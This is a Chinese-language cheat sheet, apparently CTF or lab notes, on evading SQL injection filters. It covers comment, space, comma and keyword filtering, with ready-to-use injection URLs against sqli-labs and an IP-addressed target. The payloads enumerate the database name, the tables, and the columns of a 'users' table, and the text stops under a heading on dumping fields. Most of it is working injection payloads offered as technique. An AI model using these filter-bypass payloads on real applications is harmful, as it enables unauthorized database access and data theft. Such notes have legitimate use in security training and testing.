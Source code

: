 ## 注释符过滤
### # -- -过滤 
可以用纯单引号闭合

```shell
http://120.46.58.198:18066/Tkitn/sqli-labs-master/Less-1/index.php?id=1' and '1'='2
```

### 过滤空格
1. 使用注释符/**/绕过 `SELECT/**/name/**/FROM/**/table`
2. 使用 URL 编码绕过，但是需要在 burp 抓包后修改 

`%0a == 空格`

`%09 == 空格`

3. 使用 Tab 替代空格 

### 过滤逗号
1. 使用 from 关键字绕过

对于substr() 和 mid() 这两个方法可以使用from to的方式来解决：

```shell
select substr(database() from 1 for 1);
# 等价于
select mid(database() from 1 for 1);
```

2. 使用 join 关键字绕过

```shell
union select 1,2；
# 等价于
union select * from (select 1)a join (select 2)b；
```

3. 使用 like 关键字绕过

```shell
select acii(mid(user(),1,1))=80
# 等价于
select user() like 'r%'
select user() like '_r%'
```

### 过滤关键字
1. 双写绕过

```shell
# 判断列数
http://82.156.34.5:32775/?id=1) oorrder by 3-- -

# 再去union select即可
http://82.156.34.5:32775/?id=-1) ununionion seselectlect 1,2-- -

# 拖库名字
http://82.156.34.5:32775/?id=-1) ununionion seselectlect 1,(database())-- -

# 拖表名字
http://82.156.34.5:32775/?id=-1) ununionion seselectlect 1,(selselectect group_concat(table_name) from infoorrmation_schema.tables where table_schema=database())-- -

# 拖列
http://82.156.34.5:32775/?id=-1) ununionion seselectlect 1,(selselectect group_concat(column_name) from infoorrmation_schema.columns where table_name="users")-- -

# 拖字段
```